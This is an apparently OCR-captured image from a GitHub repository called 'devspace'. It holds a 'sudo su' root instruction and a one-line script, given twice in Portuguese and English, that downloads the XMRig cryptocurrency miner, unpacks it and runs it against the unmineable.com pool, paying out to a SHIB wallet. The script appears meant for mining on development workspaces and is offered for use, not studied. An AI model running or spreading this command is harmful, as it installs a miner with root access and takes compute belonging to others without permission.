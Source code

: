 # devspace

SENHA SUPER USUARIO=  sudo su
==========================================================
SCRIPT=
wget https://github.com/xmrig/xmrig/releas... && tar xf xmrig-6.7.0-bionic-x64.tar.gz && cd xmrig-6.7.0 && ./xmrig --donate-level 1 -o rx.unmineable.com:3333 -u SHIB:0x724a91bfbcbf78414a1200409c431d3d383a2796

==========================================================
 SUPER USER PASSWORD = sudo su

 ==========================================================

 SCRIPT=

 wget https://github.com/xmrig/xmrig/releas... && tar xf xmrig-6.7.0-bionic-x64.tar.gz && cd xmrig-6.7.0 && ./xmrig --donate-level 1 -o rx.unmineable.com:3333 -u SHIB:0x724a91bfbcbf78414a1200409c431d3d383a2796

 ==========================================================

